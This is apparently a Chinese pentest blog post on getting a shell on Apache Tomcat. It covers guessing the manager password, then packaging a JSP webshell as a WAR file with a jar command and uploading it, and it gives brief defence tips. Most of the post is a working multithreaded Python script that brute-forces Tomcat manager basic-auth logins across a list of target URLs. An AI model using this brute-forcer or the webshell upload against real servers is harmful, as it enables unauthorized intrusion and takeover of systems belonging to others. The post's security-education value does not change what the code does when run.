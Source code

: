 +++
date = "2016-08-02T22:30:13+08:00"
description = ""
draft = false
tags = ["getshell"]
title = "Tomcat部署War包getshell"
topics = ["Pentest"]

+++
<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-04-10 10:45:01
 * @LastEditTime: 2019-06-20 12:47:17
 -->

### 0x00 关于 War 包
```
War包一般是进行Web开发时一个网站Project下的所有代码,包括前台HTML/CSS/JS代码,
以及Java的代码。当开发人员开发完毕时,就会将源码打包给测试人员测试,测试完后若要发布
则也会打包成War包进行发布。War包可以放在Tomcat下的webapps或word目录,当Tomcat
服务器启动时,War包也会随之被解压后自动部署。
```

### 0x01 上传 War 包 GetShell
* 找到后台猜密码然后登录
![70](/img/post/tomcat_vul_background.png)
![40](/img/post/tomcat_vul_login.png)
![30](/img/post/tomcat_vul_war_login_success.png)

* 上传 War 包

运行 jar -cf job.war ./job.jsp 生成 war 包

或者先将 jsp 大马压缩为 zip，再将 zip 后缀改名为 war ，然后上传 war 包

![50](/img/post/tomcot_vul_put_war.png)
![40](/img/post/tomcot_vul_put_war_success.png)
![60](/img/post/tomcot_vul_visit_shell1.png)
![60](/img/post/tomcot_vul_visit_shell2.png)

### 0x02 漏洞防御
* 后台使用强密码
* 删除Tomcat下的manager文件夹

### 0x03 附爆破弱口令代码
```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests
import json
import base64
import sys
import Queue
import threading

"""
简单爆破后台登陆密码
Usage: python tomcat.py username.txt password.txt urlfile.txt
username.txt为用户名字典
password.txt为密码字典
urlfile.txt为后台url列表
"""

def get_username(userfile):
    username = []
    with open(userfile, 'r') as f:
        lines = f.readlines()
        for line in lines:
            username.append(line.strip())
    return username

def get_pwd(passfile):
    password = []
    with open(passfile, 'r') as f:
        lines = f.readlines()
        for line in lines:
            password.append(line.strip())
    return password

def get_url(urlfile):
    urllist = Queue.Queue()
    with open(urlfile,'r') as f:
        lines = f.readlines()
        for line in lines:
            urllist.put(line.strip())
    return urllist

def thread(f,urls,names,pwds):
    while not urls.empty():
        s = requests.Session()
        url = urls.get()
        resp = s.get(url,timeout=10)  #用于记录cookie
        Referer = resp.url

        headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0',
            'Referer': Referer,
        }
        bgurl = url + 'manager/html'
        # print bgurl
        for name in names:
            for pwd in pwds:
                authorize = name + ':' + pwd
                Basic = "Basic " + base64.b64encode(authorize)
                headers['Authorization'] = Basic
                # print json.dumps(headers, indent=4)

                proxy = {
                    'http':'http://127.0.0.1:1080'
                }

                resp = s.get(bgurl,headers=headers,proxies=proxy,timeout=10)
                if resp.status_code == 200:
                    s = "[Ok] %s\t%s:%s" % (bgurl,name,pwd)
                    print s
                    f.write(s)
                    exit()
                else:
                    print '[Error] ' + bgurl + '\t' + name + ':' + pwd
            # break

def main():
    if len(sys.argv) < 4:
        print "Usage: python tomcat.py username.txt password.txt urlfile.txt"
        exit()
    userfile = sys.argv[1]
    passfile = sys.argv[2]
    urlfile = sys.argv[3]
    names = get_pwd(userfile)
    pwds = get_pwd(passfile)
    urls = get_url(urlfile)

    tlist = []
    f = open("result.txt","a+")
    for x in xrange(1,50):
        t = threading.Thread(target=thread,args=(f,urls,names,pwds,))
        tlist.append(t)
    for t in tlist:
        t.start()
    t.join()

main()
```